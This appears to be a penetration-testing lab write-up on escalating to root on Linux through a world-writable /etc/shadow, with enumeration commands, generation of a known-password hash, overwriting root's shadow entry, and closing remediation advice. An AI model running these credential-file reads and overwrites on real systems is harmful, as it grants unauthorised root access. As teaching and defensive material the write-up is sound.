










# Linux Privilege Escalation - Weak Permissions

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** target (local shell, user `student`)

## 1. Executive Summary

Enumerating world-writable files reveals a critically misconfigured **`/etc/shadow`** (writable
by everyone). We generate a password hash for a known password and overwrite root's entry in
the shadow file, then log in as root.

## 2. Access & Enumeration



```bash
cat /etc/passwd        # target: root
```



```bash
id ; groups
```



## 3. Finding World-Writable Files

```bash
find / -writable -type f 2>/dev/null
```



`/etc/shadow` is writable — a serious misconfiguration.





## 4. Overwriting root's Hash

Confirming write access, generating a hash and replacing root's entry.

```bash
ls -l /etc/shadow
openssl passwd -1 -salt abc password123     # generate a MD5-crypt hash
# edit /etc/shadow -> set root's hash to the generated value
```







## 5. Root

```bash
su root        # password123
id             # uid=0(root)
```



## 6. Remediation Recommendations

1. **Fix file permissions** — `/etc/shadow` must be `root:shadow` and not writable by others
   (`chmod 640`); audit for world-writable system files (`find / -perm -2 -type f`).
2. **File integrity monitoring** on `/etc/passwd` and `/etc/shadow` with alerting.
3. **Apply least privilege** and review permissions after any provisioning/automation.
